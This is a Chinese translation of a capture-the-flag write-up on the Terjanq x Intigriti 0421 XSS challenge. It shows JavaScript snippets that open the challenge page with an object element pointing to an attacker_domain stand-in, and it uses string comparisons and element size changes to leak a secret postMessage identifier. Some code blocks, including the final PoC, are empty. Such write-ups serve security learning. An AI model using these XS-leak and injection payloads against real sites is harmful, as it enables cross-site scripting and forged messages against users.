

# Terjanq x Intigriti 0421 挑战的解决方案

> 原文：<https://infosecwriteups.com/solution-for-terjanq-x-intigritis-0421-challenge-ae68556cfcf1?source=collection_archive---------0----------------------->

本月的 Intigriti 挑战赛由令人惊叹的 [Terjanq](https://twitter.com/terjanq) 制作。他自己写了一篇很酷的文章[！不出所料，这次挑战非同寻常。复杂，令人沮丧，超级有趣。](https://easterxss.terjanq.me/writeup.html)

声明:我写这篇文章不是为了睡觉，所以我提前为错别字和混乱的句子道歉。

让我们开始吧！

查看挑战页面，我们看到以下脚本:

我们可以看到 GET 参数`error`用于在页面上创建一个“错误”消息。有趣的是，GET 参数的值使用`innerHTML`插入到 DOM 中，如第 17 行所示。然而，在我们到达非常有前途的代码行之前，我们的 GET 参数必须经历一个漫长的净化过程。首先，GET 参数的值通过 postMessage 发送到页面`/waf.html`。作为 postMessage 的一部分，还包含了一个名为`identifier`的变量的值。该值是通过使用`[Crypto.getRandomValues()](https://developer.mozilla.org/en-US/docs/Web/API/Crypto/getRandomValues)`生成的“密码强随机值”。让我们跳到`/waf.html`看看那边发生了什么:

正如我们在上面的脚本中看到的，`/waf.html`作为一个 WAF 工作(真是一个惊喜)。我不会深入讨论这个 WAF 是做什么的，但是如果你愿意，你可以自己看看。重要的是要知道，WAF 实际上允许我们执行一些 JavaScript 代码，但是我们能做的非常有限。我们的 JavaScript 代码不能包含第 13 行看到的任何字符:`" ' ` ( ) { } [ ] =`。为了举例说明如何执行一些 JavaScript，我们可以为`error` GET 参数使用以下有效负载:

```

```

(记住对`+`进行 URL 编码)

这会将我们重定向到`/NaN`，因为我们试图将`location`对象递增 1，即使`location`不是 Number 类型。

在我们的 GET 参数通过 WAF 运行之后，一条 postMessage 被发送回主挑战页面，带有一个参数`safe`，它描述了`error` GET 参数的值是否通过了 WAF。那辆`identifier`也再次被送了回来。然后用`identifier`来确保邮件确实来自`/waf.html`，而不是由攻击者发送的“邪恶”邮件。

在与 [Robin](https://twitter.com/RobinZekerNiet) 简短地谈论了 Terjanq 的挑战看起来是多么的艰难之后，他提到了 Terjanq 是多么的喜欢 XS 泄密，并且为这个超级酷的资源做出了贡献:[https://xsleaks.com/](https://xsleaks.com/)。正因为如此，我决定把重点放在提取`identifier`值的可能性上。如果我们能这样做，我们就能发送一个包含我们想要的 HTML 内容的“邪恶的”postMessage。这似乎是一个非常困难的任务，因为我们可以使用的 JavasScript 代码非常有限，但事实证明这是可能的！

想了很多，我意识到一件很重要的事情。在 JavaScript 中，可以用小于和大于运算符来比较字符串。一些例子可能是:

```
"a" < "b" -> true
"abzd" > "abcd" -> true
"#b" < "#abcd" -> false
"#0a4z" < "#0a4" -> false
```

这意味着我们可以将`identifier`变量的值与其他字符串进行比较。我们不能在比较中直接输入一个字符串，因为我们不能使用任何一个`"’``，所以我们必须从其他地方获取一个字符串，比如从一个元素的`id`中。例如，我们可以这样做:

```

```

这将确定`identifier`的第一个字符是否“大于”字符“d”。

虽然这很酷，但在它变得有用之前，我们有一些明显的限制要克服。

1.  首先，我们没有办法知道比较的结果是什么。
2.  我们只做了一个简单的比较，这并不能给我们太多的信息。我们必须进行一系列的比较，才能真正获得一些有用的信息。

我们还需要记住，每次更新页面时,`identifier`的值都会改变……这看起来当然不是一些容易克服的限制，但是让我们试试吧！

为了解决问题“2 ”,我们也许可以使用`location.hash`来访问 URL 片段。这似乎是一个有趣的想法，因为可以在不更新页面的情况下更改 URL 片段！换句话说，理论上我们可以在不改变`identifier`的情况下进行多重比较。实现这一目标的一个例子是:

```
var url = "[https://challenge-0421.intigriti.io/](https://challenge-0421.intigriti.io/)?error=";var w=window.open(url+"#a");setTimeout(function(){w.location=url+"#b"},1000);
setTimeout(function(){w.location=url+"#c"},2000);
setTimeout(function(){w.location=url+"#d"},3000);
```

注意我们如何在一个“循环”中使用`this.src++`来触发`onerror`事件。

我们仍然必须弄清楚如何实际“渗透”比较的结果。

看着`/waf.html`，我们可能会注意到我们被允许使用`object`元素。这给了我们一些有趣的可能性。同源策略对我们在网站上嵌入其他域时可以检索的信息有很多限制，但顾名思义，这(当然)只是在父窗口和嵌入窗口不共享同一源的情况下。如果我们从攻击者控制的域中打开挑战页面，就像前面的例子一样，然后让挑战页面将攻击者控制的域嵌入到一个`object`元素中，会怎么样？这使得从攻击者控制的域的上下文中访问`object`元素的 contentWindow 成为可能，而没有任何同源策略问题。

```
var url = "[https://challenge-0421.intigriti.io/](https://challenge-0421.intigriti.io/)?error=<object data=https://attacker_domain>";var w=window.open(url);setTimeout(function(){console.log(w.window[1])},1000);
```

这令人兴奋的原因是，我们实际上可以用它来解释我们比较的结果！为此，我决定使用`object`元素的宽度和高度属性。其工作原理是，挑战页面将修改其中一个属性，然后我们可以通过`innerHeight`和`innerWidth`从攻击者控制的页面中读取这些属性。一个例子如下:

```
var url = "[https://challenge-0421.intigriti.io/](https://challenge-0421.intigriti.io/)?error=<object id=a data=https://attacker_domain>";var w=window.open(url);setInterval(function(){console.log(w.window[1].innerHeight)},1000);
```

我们现在都能够进行多重比较并导出结果！现在剩下的是大量的工作，实际上将这些技术放在一起，以创建一个完全工作的 PoC。一些基本的想法是这样做:

```
location.hash<this.id+identifier&&a.height++
```

如果散列是`#a`，上面的内容将被转换为:

```
"#a"<"#"+identifier&&a.height++
```

如果标识符的第一个字符“大于”a，这个逻辑将只增加 id 为`a`的`object`元素的高度。

基于上面的想法，我创建了我的 PoC 代码，我对它并不满意，但是你可以在这篇文章的底部找到它。

简而言之，它执行以下操作:

在“挑战”页面上:

1.  等待哈希发生变化
2.  检查提供的散列是否比标识符“小”,如果是这样，增加`object`元素的宽度
3.  检查提供的散列值是否“大于”标识符，如果是这样，就增加`object`元素的高度

在攻击者控制的页面上:

1.  等待`object`元素的大小改变
2.  检查哪个值发生了变化，并使用它逐字符缩小`identifier`值的可能性(使用二进制搜索)
3.  最后向挑战页面发送一条包含正确标识符的邮件，以弹出警报！

你可以在这篇文章的底部阅读更详细的解释。

运行 PoC 代码，我们得到以下结果:



漂亮，对！？

非常感谢挑战 [Terjanq](https://twitter.com/terjanq) 和 Intigriti！非常感谢您的阅读！如果你有任何问题，请随时联系我。

Happy hacking，
[@holme_sec](https://twitter.com/holme_sec)

**关于挑战页面上使用的“逻辑”有效负载的更多信息:**

以下是用于比较`identifier`变量的解码“逻辑”有效载荷:

```

```

让我们把它分成更小的部分。

第一部分:

```
this.id<location.hash||location.hash<this.id||this.src+++bla;
```

这一部分用于确保当 URL 片段改变时，我们只运行一次代码的下一部分。它通过使用 OR ( `||`)操作符来实现。它首先检查当前哈希是否大于`this.id`。`img`标签的 id 是`#NaN`，所以如果 hash 等于或大于`#NaN`，则为假。接下来，进行检查以确定当前散列是否小于`this.id`，这也是`#NaN`。因为这是用 OR 运算符完成的，所以只要其中一个语句为真，整个语句就为真。这意味着一旦当前语句为真，就没有必要继续检查其余的语句。例如，如果当前散列值大于`#NaN`，那么接下来的两条语句将被跳过，而不会被求值。然而，如果当前散列是**，既不大于**，也不小于`#NaN`，这意味着当前散列必须等于`#NaN`，我们将继续到第三个也是最后一个语句:

```
this.src+++bla
```

在评估这条语句时，我们将首先更新`img`元素的`src`。我们这样做是为了确保在循环中调用`onerror`事件处理程序。接下来，我们尝试运行无效的 JavaScript 代码`bla`。这样做的原因是确保我们在代码中创建一个错误，以避免执行`onerror`事件处理程序中的任何剩余代码。这种机制允许我们创建一些逻辑来控制何时执行一些代码。本质上这是一个糟糕的 if 语句。

第二部分:

```
location.hash<this.name+identifier&&a.width++;
```

这部分检查`identifier`变量是否大于当前散列。我们将`this.name`前置为`#`，因为`location.hash`返回以`#`字符开头的 URL 片段。如果比较结果为真，我们将`object`元素的宽度增加 1。

第三部分:

```
this.name+identifier<location.hash&&a.height++;
```

这一部分与第二部分非常相似。它检查`identifier`变量是否小于当前散列，如果是，则将`object`元素的高度增加 1。

第四部分:

```
location.hash++;this.src++
```

最后一部分从散列值加 1 开始，这将使它的值为`NaN`，因为散列值不属于 Number 类型。这样做是为了使用我们在第 1 部分中的逻辑，以确保我们每次在散列中收到新值时只运行第 2–4 部分一次。最后，增加了`this.src`以确保我们将在循环中调用`onerror`事件处理程序。

**PoC 代码:**